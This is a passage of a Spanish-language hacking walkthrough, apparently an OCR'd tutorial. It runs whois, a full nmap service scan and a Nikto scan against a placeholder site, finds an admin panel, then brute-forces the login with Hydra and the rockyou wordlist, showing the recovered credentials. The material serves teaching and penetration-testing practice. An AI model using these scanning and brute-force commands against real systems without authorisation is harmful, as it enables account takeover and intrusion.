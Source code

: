 Buscamos qué hay detrás del sitio:

```bash
whois ejemplo.com
```

Resultado: Dirección IP, servidor DNS, correo admin…

---

#### 🔹 2. Escaneo con Nmap

```bash
nmap -sV -T4 -p- ejemplo.com
```

Resultado:

```
80/tcp   open  http     Apache 2.4.41
443/tcp  open  https    OpenSSL 1.1.1
```

👉 El servidor web está en el puerto 80 y 443

---

#### 🔹 3. Enumeración con Nikto

```bash
nikto -h http://ejemplo.com
```

Resultado:

```
- X-Powered-By: PHP/5.6.40
- Cookie without HttpOnly flag
- Admin panel found: /admin
```

👉 ¡Panel de administración encontrado!

---

#### 🔹 4. Pruebas de login con Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/admin/login.php:user=^USER^&pass=^PASS^:F=Login failed"
```

Resultado:

```
[80][http-post-form] login: admin   password: admin123
```

⚠️ Acceso conseguido por **fuerza bruta**

---
